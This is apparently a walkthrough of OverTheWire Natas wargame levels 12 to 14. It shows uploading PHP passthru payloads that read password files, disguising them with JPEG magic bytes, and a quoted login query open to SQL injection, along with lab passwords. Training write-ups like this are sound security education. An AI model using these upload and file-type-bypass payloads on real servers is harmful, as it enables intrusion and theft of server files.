 ## Level 12
> http://natas12.natas.labs.overthewire.org/<br>`natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3`

There are two hidden inputs for the form:
```html
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
```
We can modify this input on the client side to set our filename and extension to be whatever we want. I changed the input value to be:
```html
<input type="hidden" name="filename" value="pwn.php">
```

Because the backend handles whichever extension we use, I made a file called passthru.php with the following contents:
```php
<?php passthru('cat /etc/natas_webpass/natas13'); ?>
```
When uploaded, you get a link to the file. When you navigate to it, the PHP is executed and provides the password: `jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY`.

## Level 13
> http://natas13.natas.labs.overthewire.org/<br>`natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY`

From filesignatures.net, I learn that the signature of JPEG images is `FF D8 FF E0`. We can write these bytes to the front of the file with python, e.g. `file.write('\xFF\xD8\xFF\xE0'+ '<?php passthru('cat /etc/natas_webpass/natas14'); ?>')`. Or we can convert the hex code to ASCII and paste it into our text file like so: `ÿØÿà<?php passthru('cat /etc/natas_webpass/natas14'); ?>`. Another option is to preface the PHP with the string `BMP`, which is interpreted as the magic number of a bitmap file. Upload the file and then change the html element so the file uploaded will be rendered as PHP or catch the request in Burp and change the extension there. Follow the link and get the password: `Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1`.


## Level 14
> http://natas14.natas.labs.overthewire.org/<br>`natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1`

We find this PHP in the source:

```php
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?> 
```
